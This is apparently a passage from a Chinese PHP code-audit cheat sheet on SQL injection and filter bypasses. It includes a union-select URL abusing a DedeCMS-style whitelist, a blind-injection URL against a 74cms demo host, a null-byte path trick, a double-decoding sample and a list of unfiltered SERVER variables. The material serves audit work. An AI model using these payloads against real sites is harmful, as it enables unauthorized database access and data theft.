 11. 由于全局过滤存在白名单限定功能，可使用无用参数带入绕过。

`$webscan_white_directory='admin|\/dede\/|\/install\/';`

请求中包含了白名单参数所以放行。

http://www.target.com/index.php/dede/?m=foo&c=bar&id=1' and 1=2 union select xxx

12. 字符串截断函数获取定长数据，截取`\\`或`\'`前一位，闭合语句。
利用条件必须是存在两个可控参数，前闭合，后注入。

13. 过滤了空格，逗号的注入，可使用括号包裹绕过。具体如遇到`select from`（关键字空格判断的正则，且剔除/**/等）可使用括号包裹查询字段绕过。

14. 由于PHP弱类型验证机制，导致==、in_array()等可通过强制转换绕过验证。

15. WAF或者过滤了and|or的情况可以使用&&与||进行盲注。

`http://demo.74cms.com/user/user_invited.php?id=1%20||%20strcmp(substr(user(),1,13),char(114,111,111,116,64,108,111,99,97,108,104,111,115,116))&act=invited`

16. windows下php中访问文件名使用`<` `>`将会被替换成`*` `?`，分别代表N个任意字符与1个任意字符。

`file_get_contents("/images/".$_GET['a'].".jpg");`

可使用`test.php?a=../a<%00`访问对应php文件。

17. 使用了urldecode 或者rawurldecode函数，则会导致二次解码声场单引号而发生注入。

```
<?php

$a=addslashes($_GET['p']);

$b=urldecode($a);

echo '$a=' .$a;

echo '<br />';

echo '$b=' .$b;

?>
```
 
18. 逻辑引用，导致二次注入

部分盲点

盲点如下：

①注入点类似id=1这种整型的参数就会完全无视GPC的过滤；

②注入点包含键值对的，那么这里只检测了value，对key的过滤就没有防护；

③有时候全局的过滤只过滤掉GET、POST和COOKIE，但是没过滤SERVER。

附常见的SERVER变量（具体含义自行百度）：

QUERY_STRING,X_FORWARDED_FOR,CLIENT_IP,HTTP_HOST,ACCEPT_LANGUAGE

PS：若对注入的代码审计有实际操类演练，参考白帽子分享之代码审计的艺术系列HackBraid@301在路上
